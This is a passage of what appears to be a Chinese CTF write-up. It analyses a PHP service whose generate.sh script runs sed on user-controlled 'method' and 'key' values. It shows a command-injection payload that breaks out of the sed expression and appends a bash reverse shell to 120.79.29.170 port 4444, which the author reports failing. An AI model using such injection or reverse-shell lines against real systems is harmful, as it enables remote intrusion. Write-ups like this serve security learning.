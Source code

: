 ```bash
?>
```

> 接受`POST`请求的`method`、`Key`、`filename`参数，将`METHOD`和`key`放入了环境变量中，对`Key`进行了一定的检查，不允许换行符和不允许超过 114 个字符，随后就通过命令执行函数执行了`generate.sh`

`generate.sh`:

```bash
set -e

NEW_FILENAME=$(tr -dc a-z0-9 </dev/urandom | head -c 16)
cp template.php "/tmp/$NEW_FILENAME"
cd /tmp

sed -i "s/KEY/$KEY/g" "$NEW_FILENAME"
sed -i "s/METHOD/$METHOD/g" "$NEW_FILENAME"

realpath "$NEW_FILENAME"
```

> 看到这里思路就清晰了，整个 bash 脚本随机了一个文件名，将`/var/www/html/template.php`复制到了`/tmp`并重命名，关键是`sed`的处理，直接文件中的`key`和`` `method替换为环境变量中的 ``key`和`method`，而`key`和`method`是我们可控制的，所以有没有情况能够通过`sh`执行脚本触发`rce\`

开始我的想法是通过注释的形式来进行`rce`，因为`key`有长度限制，明智的就是用`method`来触发。

```bash
aaaaa/g" "$NEW_FILENAME";bash -i >& /dev/tcp/120.79.29.170/4444 0>&1 # 

#替换后变成
sed -i "s/METHOD/aaaaa/g" "$NEW_FILENAME";bash -i >& /dev/tcp/120.79.29.170/4444 0>&1 # /g" "$NEW_FILENAME"

比较可惜的是，这样子并不行，报错了，sed: -e expression #1, char 17: unknown option to `s'
```

似乎并不行，改了挺久也没能成功，找下其它思路，比如`sed`本身的东西，发现`sed -e` 有参数可以直接执行脚本。
